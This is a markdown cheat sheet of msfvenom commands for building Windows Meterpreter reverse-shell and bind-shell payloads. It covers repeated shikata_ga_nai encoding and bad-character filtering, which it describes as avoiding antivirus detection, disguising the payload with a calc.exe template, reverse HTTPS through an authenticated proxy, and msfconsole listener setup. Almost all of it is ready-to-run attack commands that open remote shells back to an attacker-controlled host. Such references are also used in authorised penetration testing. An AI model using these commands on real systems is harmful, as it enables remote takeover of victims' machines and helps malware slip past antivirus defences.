 # Msfvenom

Examples of previously created MSFVenom payloads required in the different scenarios

##### Reverse TCP:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o meterpreter.exe
```

##### Encoded multiple times:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -e x86/shikata_ga_nai -i 10 -f exe -o meterpreter.exe
```

##### Add Windows Calc.exe as a template:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -f exe -x calc.exe -e x86/shikata_ga_nai -i 10 -f exe -o meterpreter.exe
```


##### Reverse HTTPS with proxy authentication:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_https HttpProxyUser=user HttpProxyPass=password LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o meterpreter.exe
```

##### Bind Shell - DLL Payload:
```
msfvenom --platform Windows -p windows/shell_bind_tcp LPORT=443 -f DLL -o bind_shell.dll
```

#### Encoding:

```
-e encoder type
-i how man times to encode
```
#### Filler and bad characters:
```
-n the amound of bytes to add at the beginning
-b exclude bad chars (\x00 common filler, searched for by AV)
```


##### MSF Console - start a listener/handler:
```
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.0.0.1
set lport 443
exploit -j
```
